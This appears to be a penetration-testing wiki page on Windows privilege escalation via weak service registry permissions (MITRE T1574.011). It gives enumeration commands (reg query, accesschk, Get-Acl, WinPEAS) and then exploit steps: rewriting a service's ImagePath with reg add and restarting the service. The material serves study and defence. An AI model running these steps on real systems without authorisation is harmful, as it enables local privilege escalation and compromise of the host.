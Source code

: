 ```yaml
---
description: >-
  MITRE ATT&CK™  Hijack Execution Flow: Services Registry Permissions Weakness 
  - Technique T1574.011
---
```


# Weak Registry Permissions

## Theory

By hijacking the Registry entries utilized by services, attackers can run their malicious payloads. Attackers may use weaknesses in registry permissions to divert from the initially stated executable to one they control upon Service start, allowing them to execute their unauthorized malware.

## Practice

An attacker can leverage this misconfiguration to modify the ImagePath of service with the path of the custom malicious executable that will give an escalation to the account context the service is set to execute under (local/domain account, SYSTEM, LocalService, or NetworkService).

{% tabs %}
{% tab title="Enum" %}
We can check our permissions over services registry doing:
```powershell
#Get the binary paths of the services
reg query hklm\System\CurrentControlSet\Services /s /v imagepath

#Try to write every service with its current content (to check if you have write permissions)
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

#With PowerShell
get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"

Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\<ServiceName> | fl
```
Alternativly, we can use [AccessChk](https://learn.microsoft.com/fr-fr/sysinternals/downloads/accesschk) from sysinternals tools to enum permissions over services.
```powershell
#List rights for authenticated users on registry
accesschk64.exe /accepteula "authenticated users" -kvuqsw hklm\System\CurrentControlSet\services

#List everyone rights on registry
accesschk64.exe /accepteula -kvuqsw hklm\System\CurrentControlSet\services

#List everyone rights on specific service registry
accesschk64.exe /accepteula -kvuqsw hklm\System\CurrentControlSet\services\<Name>
```

Or,if you want to look about a specific service:
```powershell

Get-Acl -Path hklm:\System\CurrentControlSet\services\<ServiceName> | fl
```

Or we can use the `servicesinfo` module of [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
winPEASx64.exe servicesinfo
```
{% endtab %}

{% tab title="Exploit" %}
To change the path of th binary
```powershell
reg add HKLM\SYSTEM\CurrentControlSet\services\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```

And then, restart the service
```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc.exe stop <Service_Name>
sc.exe start <Service_Name>
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions" %}